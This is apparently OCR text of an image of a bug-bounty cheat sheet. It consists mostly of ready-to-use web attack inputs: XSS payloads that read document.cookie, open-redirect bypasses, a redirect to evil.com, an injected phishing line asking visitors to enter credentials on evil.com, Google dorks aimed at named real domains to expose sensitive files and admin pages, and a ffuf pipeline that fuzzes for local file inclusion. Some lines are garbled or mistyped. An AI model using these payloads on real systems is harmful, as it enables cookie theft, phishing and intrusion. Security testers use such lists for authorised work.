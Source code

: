 url.com/?next=javascri…)

Bypass Redirect

url.com/?next=//google…

<img src=xss onerror=alert(document.cookie)>

<input value=XSS+HTML onmouseover=alert(9)><h1>
Cookie: re-->">'>'"<script>alert(document.cookie)</script>"<script>alert(document.cookie)</script>
site:*secretspalace.com intitle:index.of

Forget password
url.com/login-reset/?t…
Open redirect

url/asas%2f
//google%E3E80%82com

//https%3A%2F%2Fgoogle%2Fcom
/'*alert(document.location='evil.com')*'

</script><script>alert(document.cookie)</script>

Sensitive Data exposure
site:mozsweden.com inurl:wp- | inurl:wp-content | inurl:plugins | inurl:uploads | inurl:themes | inurl:download

site:x.com | inurl:gmail | inurl:yahoo | inurl:mail | inurl:admin | inurl:password
</script><script>window.open("bing.com)</script>

url/we have moved to wwww.evil.com%2f

=hi">Hello visitors, the site:evil.com is associated with this same domain, so have a visit and enter youro crentials to log into there;

login.seek.com/login?=%22%3E%…

#randompayloads #bugbounty #sqlinjeection

waymore -i "testphp.vulnweb.com" -n -mode U | gf lfi | sed 's/=.*/=/' | qsreplace "FUZZ" | sort -u | while read urls; do ffuf -u $urls -w payloads/lfi.txt -c -mr "root:" -v; done